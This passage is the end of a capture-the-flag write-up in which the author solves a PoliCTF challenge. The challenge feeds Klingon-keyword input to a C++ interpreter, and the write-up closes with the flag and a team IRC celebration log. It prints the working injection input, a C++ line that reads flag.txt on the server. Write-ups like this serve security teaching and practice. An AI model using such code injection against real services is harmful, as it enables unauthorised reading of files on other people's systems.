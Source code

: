 ```
Dor
```

Yeah, it gets executed, and you got `42` back!

### Go!

Exploit time! Remember that you want to get the content of `flag.txt` back. At that point, since I don't know C++, I tried different things. With some very beautiful error messages from times to timesâ¦ which confirm that some JIT compilation is done.

![Opps, faillure](http://www.rogdham.net/media/polictf_exploit_fail.png)

Anyway, after a few tries your exploit succeed, and you get the flag back!

```
loS ..........
ghItlh pIqaD (a..y)
ng
ghItlh Qap
string l;ifstream in("flag.txt");while(getline(in,l)) cout<<l
ghItlh pIqaD (a..y)
gh
ghItlh De'
1
ghItlh pIqaD (a..y)
gh
ghItlh De'
1
ghItlh pIqaD (a..y)
gh
ghItlh De'
1
ghItlh pIqaD (a..y)
tlh
ghItlh Qap (0..3)
3
Well done, you found the flag:jbvenvinvpek2envi2nThis challenge is powered by cling: http://root.cern.ch/drupal/content/cling1 0 0
ghItlh pIqaD (a..y)
Dor
```

Flag: `jbvenvinvpek2envi2n`.

Conclusion
---
That challenge was not really technical, since I managed to do it without knowing a word of Kligon or C++. However, it was fun, and scoring makes everyone happy in your team!

```irc
00:16:15 @csn         top work
00:16:22 @csn         AFiniteNumberOfMonkeys: 440points
00:16:22 +Rogdham     Your submission of flag *** has earned 440 points.
00:16:27 +Rogdham     heah\o/
00:16:27 @csn         BIRMINGHAM WOO
00:16:27 gardiner90   AFiniteNumberOfMonkeys: 440points
00:16:34 Abstract_Tom Well played \o/
00:16:36 +boxcar      Woo :D
00:16:39 +Rogdham     youhouuuuuuuu
00:16:42 +boxcar      Heroic!
00:16:43 gardiner90   we are now 8th out of 180!!
```
